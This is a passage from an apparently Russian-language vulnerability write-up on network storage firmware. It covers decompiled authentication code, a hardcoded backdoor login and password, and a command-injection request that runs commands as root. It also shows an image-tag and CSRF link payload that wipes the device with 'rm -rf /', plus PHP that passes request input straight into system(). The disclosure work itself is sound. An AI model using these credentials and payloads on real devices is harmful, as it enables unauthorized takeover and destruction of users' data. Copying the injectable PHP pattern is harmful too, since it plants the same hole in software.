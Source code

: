 ```c
        break;
      if ( !strcmp(result->pw_name, v3) )
      {
        strcpy(&s, v6->pw_passwd);
        fclose(v5);
        strcpy(&dest, (const char *)&v9);
        v7 = (const char *)sub_1603C(&dest, &s);
        return (struct passwd *)(strcmp(v7, &s) == 0);
      }
    }
  }
  return result;
}
```

Тут можно увидеть, что присутствует проверка на захардкоженные данные для входа:

```c
if (!strcmp(v3, "mydlinkBRionyg") && !strcmp((const char *)&v9, "abc12345cba") )
```

Таким образом возможно аутентифицироваться, используя логин `mydlinkBRionyg` и пароль `abc12345cba`. Далее, используя метод 51, который содержит уязвимость выполнения команд можно выполнить любую команду от рута, используя следующий HTTP запрос:

```http
GET /cgi-bin/nas_sharing.cgi?dbg=1&cmd=51&user=mydlinkBRionyg&passwd=YWJjMT
IzNDVjYmE&start=1&count=1;touch+/tmp/gulftech; HTTP/1.1
```

Встроив в страничку картинку следующим образом возможно добиться удаления всего на данном хранилице:

```html
<img src="http://wdmycloud/cgi-bin/nas_sharing.cgi?dbg=1&cmd=51&user=mydlin
kBRionyg&passwd=YWJjMTIzNDVjYmE&start=1&count=1;rm+-rf+/;">
```

## Другие уязвимости

Также в прошивке сетевых хранилищ найдены следующие уязвимости:

### CSRF

Прошивка не содержит никакой защиты от CSRF, таким образом если заставить залогиненного админа перейти по ссылке вида:

```
http://wdmycloud/web/dsdk/DsdkProxy.php?;rm -rf /;
```

### Исполнение команд

```php
class RemoteBackupsAPI{
    public function getRecoverItems()
    {
        $xmlPath = "/var/www/xml/rsync_recover_items.xml";
        $jobName = $_REQUEST['jobName'];

        @unlink($xmlPath);

        $cmd = "rsyncmd -l \"$xmlPath\" -r \"$jobName\" >/dev/null";
        system($cmd);

        if (file_exists($xmlPath))
        {
            print file_get_contents($xmlPath);
```